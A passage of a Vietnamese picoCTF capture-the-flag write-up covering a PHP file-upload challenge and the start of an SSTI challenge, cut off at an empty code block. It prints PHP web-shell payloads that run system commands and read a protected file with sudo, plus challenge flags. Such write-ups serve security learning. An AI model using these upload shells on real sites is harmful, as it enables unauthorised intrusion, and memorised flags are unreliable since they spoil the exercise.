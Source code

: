 ![image](https://hackmd.io/_uploads/HJegZuti1g.png)

`Flag: picoCTF{Pat!3nt_15_Th3_K3y_f1179e46}`

## web/n0s4n1ty 1

![image](https://hackmd.io/_uploads/BJJK-_KsJx.png)

### Hints

File upload vulnerability

### Solution

Challenge cho mình một trang web về profile 

![image](https://hackmd.io/_uploads/BJFsZOKiJl.png)

Vì web cho upload cả file php nên mình thử payload sau

```<?php echo 123;?>```

Và đoạn code được thực thi

![image](https://hackmd.io/_uploads/BJbvfdKoyl.png)

Mình thử `ls` nhưng không có file gì lạ nên thử `ls /` và thấy có `/challenge` khá sú

```<?php system("ls -lah /");?>```

![image](https://hackmd.io/_uploads/HJe7XOKjyx.png)

Thử ls thư mục này và có 2 file 

```<?php system("sudo ls /challenge")?>```

Đọc thử file metadata và có flag

```<?php system("sudo cat /challenge/metadata.json")?>```

![image](https://hackmd.io/_uploads/rkHMEuYsyg.png)

`Flag: picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}`

## web/SSTI1

![image](https://hackmd.io/_uploads/HJmiE_FiJl.png)

### Hints

SSTI

### Solution

Okay thì đây là một bài SSTI cơ bản

![image](https://hackmd.io/_uploads/B1ea4uKjye.png)

Mình tìm payload trên đây https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md 

![image](https://hackmd.io/_uploads/HJRdU_Fiye.png)

```python
```